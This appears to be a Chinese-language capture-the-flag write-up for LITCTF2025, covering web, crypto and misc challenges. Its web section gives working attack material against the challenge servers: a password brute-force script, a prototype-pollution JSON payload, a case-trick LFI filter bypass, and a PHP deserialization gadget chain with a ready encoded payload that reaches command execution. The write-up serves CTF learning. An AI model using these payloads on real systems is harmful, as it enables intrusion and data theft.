









# LITCTF2025

## Web

### 星愿信箱

经过测试是SSTI，可以通过设置变量绕过黑名单

```jinja2





```



### nest_js

弱密码，登录就有`flag`

```
admin:password
```

### 多重宇宙日记

随意注册进入到`/profile`，查看源码得到判断条件




使用`__proto__`来绕过

```json
{
    "settings": {
        "theme": "13123",
        "language": "13",
        "__proto__": {
            "isAdmin": true
        }
    }
}
```

### easy_file

也是弱密码，可以试，也可以爆破，脚本如下👇

```python
import requests
import base64

def encode(input):
    return base64.b64encode(input.encode()).decode()

url = "http://node8.anna.nssctf.cn:20309/login.php"
username = encode("admin")

with (open("top5000.txt", "r") as f):
    for line in f:
        password = line.strip()
        encoded_password = encode(password)
        data = {
            "username": username,
            "password": encoded_password
        }
        response = requests.post(url, data=data)
        print(f"Trying: {password} -> {response.status_code}")
        if "错误" not in response.text.lower() or "成功" in response.text:
            print("Success!")
            print(response.text)
            break
```

得到密码就是`password`

进入后台可以上传文件，经测试是白名单，只能上传图片，但是在登录页的注释中发现了可以通过`file`参数来进行包含查看  



如下发包




然后文件包含即可命令执行



### easy_signin

进入页面直接就`403`了，尝试`dirsearch`扫描一下

进入到`login.htm`l页面，看到源码有一个`/api.js`，给出的路径👇

```html
/api/sys/urlcode.php?url=
```

尝试进行文件包含，过滤了`php://`，但是注意了，PHP是大小写不敏感的，可以通过大写绕过

```html
/api/sys/urlcode.php?url=Php://filter/convert.base64-encode/resource=/var/www/html/api/sys/urlcode.php
```

`Base64`解密后，得到源码

```php
<?php
error_reporting(0);

function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_REQUEST['url'];
if($url){

    $forbidden_protocols = ['ftp://', 'php://', 'zlib://', 'data://', 'glob://', 'phar://', 'ssh2://', 'rar://', 'ogg://', 'expect://'];
    $protocol_block = false;
    foreach ($forbidden_protocols as $proto) {
        if (strpos($url, $proto) === 0) {  
            $protocol_block = true;
            break;
        }
    }
    $log_block = strpos($url, '.log') !== false;  
    
    if ($protocol_block) {
        echo "禁止访问：不允许使用 {$proto} 协议";
    } elseif ($log_block) {
        echo "禁止访问：URL 包含 .log";
    } elseif (strpos($url, 'login.php') !== false || strpos($url, 'dashboard.php') !== false || strpos($url, '327a6c4304ad5938eaf0efb6cc3e53dc.php') !== false) {
        echo "看不见哦";
    } else {
        echo "<b>".$url." 的快照如下：</b><br><br>";
        echo "<pre>";
        curl($url);
        include($url);
        echo "</pre>";
    }
}
?>
```

访问`327a6c4304ad5938eaf0efb6cc3e53dc.php`即可获取到`flag`

### 君の名は

源码如下👇

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
create_function("", 'die(`/readflag`);');
class Taki
{
    private $musubi;
    private $magic;
    public function __unserialize(array $data)
    {
        $this->musubi = $data['musubi'];
        $this->magic = $data['magic'];
        return ($this->musubi)();
    }
    public function __call($func,$args){
        (new $args[0]($args[1]))->{$this->magic}();
    }
}

class Mitsuha
{
    private $memory;
    private $thread;
    public function __invoke()
    {
        return $this->memory.$this->thread;
    }
}

class KatawareDoki
{
    private $soul;
    private $kuchikamizake;
    private $name;

    public function __toString()
    {
        ($this->soul)->flag($this->kuchikamizake,$this->name);
        return "call error!no flag!";
    }
}

$Litctf2025 = $_POST['Litctf2025'];
if(!preg_match("/^[Oa]:[\d]+/i", $Litctf2025)){
    unserialize($Litctf2025);
}else{
    echo "把O改成C不就行了吗,笨蛋!～(∠・ω< )⌒☆";
}
```

绕过第一层的正则表达式，可以用`C`，可以参考

- [PHP反序列化中wakeup()绕过总结 – fushulingのblog](https://fushuling.com/index.php/2023/03/11/php反序列化中wakeup绕过总结/)
- [(ฅ>ω<*ฅ) 噫又好啦 ~php反序列化 | 晨曦的个人小站](https://chenxi9981.github.io/php反序列化/)

然后就是标准的流程

```php
__unserialize->__invoke->__toString()->__call
```

最后到达`__call`里面的新建类方法，需要使用使用`ReflectionFunction`类来反射上面的`create_function`的命令

- [PHP: create_function - Manual](https://www.php.net/manual/zh/function.create-function.php)
- [PHP: ReflectionFunction - Manual](https://www.php.net/manual/en/class.reflectionfunction.php)

由于`create_function`并没有设置返回值，那么可以通过调试查看到，会返回一个默认的字符串，并且带有不可见字符



因此通过反射类来调用的时候要注意编码，高版本`PHP`对成员修饰符不敏感，可以直接改`private`为`public`

```php
<?php

class Taki
{
    public $musubi;
    public $magic = "invoke";
}

class Mitsuha
{
    public $memory;
    public $thread;
}

class KatawareDoki
{
    public $soul;
    public $kuchikamizake = "ReflectionFunction";
    public $name = "\00lambda_1";
}
$taki  = new Taki();
$mitsuha = new Mitsuha();
$katawareDoki = new KatawareDoki();

$taki->musubi = $mitsuha;		
$mitsuha->thread = $katawareDoki;		
$katawareDoki->soul = $taki;			

$arr=array("evil"=>$taki);
$o=new ArrayObject($arr);
echo urlencode(serialize($o));
#改O为C
#O%3A11%3A%22ArrayObject%22%3A3%3A%7Bi%3A0%3Bi%3A0%3Bi%3A1%3Ba%3A1%3A%7Bs%3A4%3A%22evil%22%3BO%3A4%3A%22Taki%22%3A2%3A%7Bs%3A6%3A%22musubi%22%3BO%3A7%3A%22Mitsuha%22%3A2%3A%7Bs%3A6%3A%22memory%22%3BN%3Bs%3A6%3A%22thread%22%3BO%3A12%3A%22KatawareDoki%22%3A3%3A%7Bs%3A4%3A%22soul%22%3Br%3A4%3Bs%3A13%3A%22kuchikamizake%22%3Bs%3A18%3A%22ReflectionFunction%22%3Bs%3A4%3A%22name%22%3Bs%3A9%3A%22%00lambda_1%22%3B%7D%7Ds%3A5%3A%22magic%22%3Bs%3A6%3A%22invoke%22%3B%7D%7Di%3A2%3Ba%3A0%3A%7B%7D%7D
```



值得注意的是这里每访问一次页面，`create_function`就会执行一次，也就是说`lambda`后面的数字是会变的，最好是重开一个容器

## Crypto

### basic

```python
from Crypto.Util.number import *

n = 150624321883406825203208223877379141248303098639178939246561016555984711088281599451642401036059677788491845392145185508483430243280649179231349888108649766320961095732400297052274003269230704890949682836396267905946735114062399402918261536249386889450952744142006299684134049634061774475077472062182860181893
e = 65537
c = 22100249806368901850308057097325161014161983862106732664802709096245890583327581696071722502983688651296445646479399181285406901089342035005663657920475988887735917901540796773387868189853248394801754486142362158369380296905537947192318600838652772655597241004568815762683630267295160272813021037399506007505

# n 是素数，phi(n) = n - 1
d = inverse(e, n - 1)
m = pow(c, d, n)
flag = long_to_bytes(m)
print(flag)
```

### ez_math

```python
from Crypto.Util.number import *

e = 65537
p = 8147594556101158967571180945694180896742294483544853070485096002084187305007965554901340220135102394516080775084644243545680089670612459698730714507241869
B = [
    [2155477851953408309667286450183162647077775173298899672730310990871751073331268840697064969968224381692698267285466913831393859280698670494293432275120170,
     4113196339199671283644050914377933292797783829068402678379946926727565560805246629977929420627263995348168282358929186302526949449679561299204123214741547],
    [3652128051559825585352835887172797117251184204957364197630337114276860638429451378581133662832585442502338145987792778148110514594776496633267082169998598,
     2475627430652911131017666156879485088601207383028954405788583206976605890994185119936790889665919339591067412273564551745588770370229650653217822472440992]
]

# 计算模逆
d = inverse(e, p - 1)

# 矩阵乘法 mod p
def matmul(A, B, p):
    return [
        [(A[0][0]*B[0][0] + A[0][1]*B[1][0]) % p, (A[0][0]*B[0][1] + A[0][1]*B[1][1]) % p],
        [(A[1][0]*B[0][0] + A[1][1]*B[1][0]) % p, (A[1][0]*B[0][1] + A[1][1]*B[1][1]) % p],
    ]

# 矩阵快速幂 mod p
def matpow(mat, exp, p):
    res = [[1, 0], [0, 1]]
    while exp > 0:
        if exp % 2 == 1:
            res = matmul(res, mat, p)
        mat = matmul(mat, mat, p)
        exp //= 2
    return res

A = matpow(B, d, p)
flag = long_to_bytes(A[0][0])
print(flag)
```

## MISC

### Cropping

binwalk分离



可以直接解压得到图片



将图片拼接起来是一个二维码

```python
from PIL import Image

rows, cols = 10, 10
tile_w, tile_h = Image.open('tile_0_0.png').size
output = Image.new('RGB', (cols * tile_w, rows * tile_h))

for i in range(rows):
    for j in range(cols):
        tile = Image.open(f'tile_{i}_{j}.png')
        output.paste(tile, (j * tile_w, i * tile_h))

output.save('merged.png')
```


